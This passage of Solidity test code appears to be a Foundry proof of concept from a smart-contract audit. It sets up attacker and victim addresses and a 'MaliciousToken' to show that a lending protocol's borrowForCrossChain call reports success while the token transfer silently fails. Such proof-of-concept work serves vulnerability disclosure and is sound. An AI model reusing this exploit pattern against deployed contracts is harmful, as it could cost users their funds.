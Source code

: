 ```solidity 
        (
           address priceOracleAddress,
            address lendtrollerAddress,
            address interestRateModelAddress,
            address[] memory lTokenAddresses,
            address payable routerAddress,
            address payable coreRouterAddress,
            address lendStorageAddress,
            address _layerZeroEndpoint,
            address[] memory _supportedTokens
        ) = deploy.run();
        
        // Get deployed contracts
        coreRouter = CoreRouter(coreRouterAddress);
        lendStorage = LendStorage(lendStorageAddress);
        
        // Set up test addresses
        attacker = makeAddr("attacker");
        victim = makeAddr("victim");
        crossChainRouter = makeAddr("crossChainRouter");
        
        // Deploy our malicious token
        maliciousToken = new MaliciousToken();
        mockLToken = new MockLToken();
        
        // Set up CrossChainRouter address in CoreRouter (admin function)
        vm.startPrank(coreRouter.owner());
        coreRouter.setCrossChainRouter(crossChainRouter);
        vm.stopPrank();
        
        // Mint tokens to CoreRouter (simulating funds available for borrowing)
        maliciousToken.mint(address(coreRouter), 1000 ether);
    }
    
    function testSilentTransferFailure() public {
        // Initial balances
        uint256 initialRouterBalance = maliciousToken.balanceOf(address(coreRouter));
        uint256 initialVictimBalance = maliciousToken.balanceOf(victim);
        
        // Set victim to the special address that triggers silent failure
        address exploitVictim = address(0x1234);
        
        // Simulate a cross-chain message triggering borrowForCrossChain
        vm.startPrank(crossChainRouter);
        
        // This will appear to succeed but the transfer will silently fail
        coreRouter.borrowForCrossChain(
            exploitVictim,           // victim who won't receive tokens
            100 ether,               // amount to borrow
            address(mockLToken),     // mock lToken that always succeeds
            address(maliciousToken)  // malicious token that fails silently
        );
        
        vm.stopPrank();
        
        // Verify that funds were not transferred despite the function completing
        assertEq(
            maliciousToken.balanceOf(address(coreRouter)),
            initialRouterBalance,
            "Router balance should be unchanged due to silent transfer failure"
        );
        
        assertEq(
```